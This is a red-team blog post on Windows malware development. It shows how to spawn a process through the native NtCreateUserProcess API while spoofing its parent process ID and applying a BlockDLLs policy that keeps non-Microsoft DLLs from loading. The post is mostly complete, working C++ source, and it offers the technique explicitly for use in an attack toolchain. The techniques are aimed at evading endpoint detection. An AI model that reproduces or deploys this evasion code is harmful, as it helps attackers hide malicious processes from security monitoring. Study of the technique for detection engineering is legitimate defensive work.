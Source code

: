 ```yaml
---
title: "PPID Spoofing & BlockDLLs with NtCreateUserProcess"
date: 2022-05-12T17:26:06+01:00
draft: false
authors:
    - RastaMouse
---
```


This week, [Capt. Meelo](https://twitter.com/CaptMeelo) released a great [blog post](https://captmeelo.com/redteam/maldev/2022/05/10/ntcreateuserprocess.html) on how to call the NtCreateUserProcess API as a substitue for the typical Win32 [CreateProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw) API.  This post will build upon Meelo's, so I highly encourage you to read it first.

TL;DR, this code (not counting `ntdll.h`) is the bare minimum to spawn `mmc.exe`:

```c++
#include <Windows.h>
#include "ntdll.h"
#pragma comment(lib, "ntdll")

int main()
{
	UNICODE_STRING NtImagePath;
	RtlInitUnicodeString(&NtImagePath, (PWSTR)L"\\??\\C:\\Windows\\System32\\mmc.exe");

	PRTL_USER_PROCESS_PARAMETERS ProcessParameters = NULL;
	RtlCreateProcessParametersEx(&ProcessParameters, &NtImagePath, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, RTL_USER_PROCESS_PARAMETERS_NORMALIZED);

	PS_CREATE_INFO CreateInfo = { 0 };
	CreateInfo.Size = sizeof(CreateInfo);
	CreateInfo.State = PsCreateInitialState;

	PPS_ATTRIBUTE_LIST AttributeList = (PS_ATTRIBUTE_LIST*)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_ATTRIBUTE));
	AttributeList->TotalLength = sizeof(PS_ATTRIBUTE_LIST);
	AttributeList->Attributes[0].Attribute = PS_ATTRIBUTE_IMAGE_NAME;
	AttributeList->Attributes[0].Size = NtImagePath.Length;
	AttributeList->Attributes[0].Value = (ULONG_PTR)NtImagePath.Buffer;

	HANDLE hProcess, hThread = NULL;
	NtCreateUserProcess(&hProcess, &hThread, PROCESS_ALL_ACCESS, THREAD_ALL_ACCESS, NULL, NULL, NULL, NULL, ProcessParameters, &CreateInfo, AttributeList);

	RtlFreeHeap(RtlProcessHeap(), 0, AttributeList);
	RtlDestroyProcessParameters(ProcessParameters);
}
```

If you're going to use this technique as part of an attack toolchain, integrating PPID spoofing and/or BlockDLLs are potentially useful.  This is something we've known how to do with the CreateProcess API for a [long time](https://gist.github.com/rasta-mouse/af009f49229c856dc26e3a243db185ec), but there's not much consumable information about how to do this with NtCreateUserProcess.

>> Before we continue, note that I made the following modifications to Meelo's PoC:
>>
>> 1. Reduced the default `PS_ATTRIBUTE` array size from 2 to 1 in `ntdll.h:1305`.
>> 2. Changed `AttributeList->TotalLength` from `sizeof(PS_ATTRIBUTE_LIST) - sizeof(PS_ATTRIBUTE)` to `sizeof(PS_ATTRIBUTE_LIST)` in `main.cpp:19`.
>>

This just helps us keep track a little easier of how many process attributes we're providing and the buffer size required to hold them.  In this PoC, we only have 1 attribute:  `PS_ATTRIBUTE_IMAGE_NAME` which points to the `NtImagePath` of the process we want to start.  As such, the `PS_ATTRIBUTE` array size only needs to be 1; the call to `RtlAllocateHeap` only needs to allocate enough for 1 `PS_ATTRIBUTE` (`sizeof(PS_ATTRIBUTE)`); and therefore the `AttributeList->TotalLength` is simply `sizeof(PS_ATTRIBUTE_LIST)`.  In short, we shouldn't need to take off the size of `PS_ATTRIBUTE` because our array size is larger than it needs to be.

## Parent Process

To spawn a process as a child of another process, we use the `PsAttributeParentProcess` `PS_ATTRIBUTE_NUM` and provide the HANDLE to the parent.  This could be done with `NtOpenProcess`.

```c++
OBJECT_ATTRIBUTES oa;
InitializeObjectAttributes(&oa, 0, 0, 0, 0);

CLIENT_ID cid = { (HANDLE)10104, NULL };

HANDLE hParent = NULL;
NtOpenProcess(&hParent, PROCESS_ALL_ACCESS, &oa, &cid);
```

>> Note: I've just hardcoded 10104, whch is the PID for explorer.exe.

Because we're adding a new attribute, we need to bump the `PS_ATTRIBUTE` size back to up 2; and the call to `RtlAllocateHeap` now needs to allocate enough room for **2** `PS_ATTRIBUTE`'s, i.e:  `sizeof(PS_ATTRIBUTE)*2`.

The attributes to add are simple:

```c++
AttributeList->Attributes[1].Attribute = PS_ATTRIBUTE_PARENT_PROCESS;
AttributeList->Attributes[1].Size = sizeof(HANDLE);
AttributeList->Attributes[1].ValuePtr = hParent;
```

Where `PS_ATTRIBUTE_PARENT_PROCESS` is already defined in `ntdll.h`.

![](/images/ntcreateuserprocess/mmc-parent.png "PPID Spoof")

## BlockDLLs

To add a process mitigation policy, we need the `PsAttributeMitigationOptions` `PS_ATTRIBUTE_NUM`, however the macro defined in Meelo's `ntdll.h` is:

```c++
#define PS_ATTRIBUTE_MITIGATION_OPTIONS \
    PsAttributeValue(PsAttributeMitigationOptions, FALSE, TRUE, TRUE)
```

This produces a value of `0x60010`, but [@passthehashbrwn](https://twitter.com/passthehashbrwn) pointed out on Twitter that the value required to make BlockDLLs work is acually `0x20010`.  You can of course just hardcode this value, but I also found you can arrive there using:

```c++
#define PS_ATTRIBUTE_MITIGATION_OPTIONS_2 \
    PsAttributeValue(PsAttributeMitigationOptions, FALSE, TRUE, FALSE)
```

As before, adding the attributes is simple:

```c++
DWORD64 policy = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON;

AttributeList->Attributes[2].Attribute = PS_ATTRIBUTE_MITIGATION_OPTIONS_2;
AttributeList->Attributes[2].Size = sizeof(DWORD64);
AttributeList->Attributes[2].ValuePtr = &policy;
```

![](/images/ntcreateuserprocess/mmc-blockdlls.png "BlockDLLs")

## Final Code

```c++
#include <Windows.h>
#include "ntdll.h"
#pragma comment(lib, "ntdll")

int main()
{
	// define strings
	UNICODE_STRING NtImagePath, CurrentDirectory, CommandLine;
	RtlInitUnicodeString(&NtImagePath, (PWSTR)L"\\??\\C:\\Windows\\System32\\mmc.exe");
	RtlInitUnicodeString(&CurrentDirectory, (PWSTR)L"C:\\Windows\\System32");
	RtlInitUnicodeString(&CommandLine, (PWSTR)L"\"C:\\Windows\\System32\\mmc.exe\"");

	// user process parameters
	PRTL_USER_PROCESS_PARAMETERS ProcessParameters = NULL;
	RtlCreateProcessParametersEx(&ProcessParameters, &NtImagePath, NULL, &CurrentDirectory, &CommandLine, NULL, NULL, NULL, NULL, NULL, RTL_USER_PROCESS_PARAMETERS_NORMALIZED);

	// process create info
	PS_CREATE_INFO CreateInfo = { 0 };
	CreateInfo.Size = sizeof(CreateInfo);
	CreateInfo.State = PsCreateInitialState;

	// initialise attribute list
	PPS_ATTRIBUTE_LIST AttributeList = (PS_ATTRIBUTE_LIST*)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_ATTRIBUTE)*3);
	AttributeList->TotalLength = sizeof(PS_ATTRIBUTE_LIST);
	
	// set image name
	AttributeList->Attributes[0].Attribute = PS_ATTRIBUTE_IMAGE_NAME;
	AttributeList->Attributes[0].Size = NtImagePath.Length;
	AttributeList->Attributes[0].Value = (ULONG_PTR)NtImagePath.Buffer;

	// obtain handle to parent
	OBJECT_ATTRIBUTES oa;
	InitializeObjectAttributes(&oa, 0, 0, 0, 0);

	CLIENT_ID cid = { (HANDLE)10104, NULL };
	
	HANDLE hParent = NULL;
	NtOpenProcess(&hParent, PROCESS_ALL_ACCESS, &oa, &cid);

	// add parent process attribute
	AttributeList->Attributes[1].Attribute = PS_ATTRIBUTE_PARENT_PROCESS;
	AttributeList->Attributes[1].Size = sizeof(HANDLE);
	AttributeList->Attributes[1].ValuePtr = hParent;

	// blockdlls policy
	DWORD64 policy = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON;

	// add process mitigation atribute
	AttributeList->Attributes[2].Attribute = PS_ATTRIBUTE_MITIGATION_OPTIONS_2;
	AttributeList->Attributes[2].Size = sizeof(DWORD64);
	AttributeList->Attributes[2].ValuePtr = &policy;

	// spawn process
	HANDLE hProcess, hThread = NULL;
	NtCreateUserProcess(&hProcess, &hThread, PROCESS_ALL_ACCESS, THREAD_ALL_ACCESS, NULL, NULL, NULL, NULL, ProcessParameters, &CreateInfo, AttributeList);

	// close handle to parent
	CloseHandle(hParent);

	// free allocated memory
	RtlFreeHeap(RtlProcessHeap(), 0, AttributeList);
	RtlDestroyProcessParameters(ProcessParameters);
}
```

## Conclusion

This post demonstrated how to spawn a process with PPID Spoofing and BlockDLLs using the NtCreateUserProcess API.

>> CreateProcessW is dead, long live NtCreateUserProcess.

Shout-out to @CaptMeelo and @passthehashbrwn.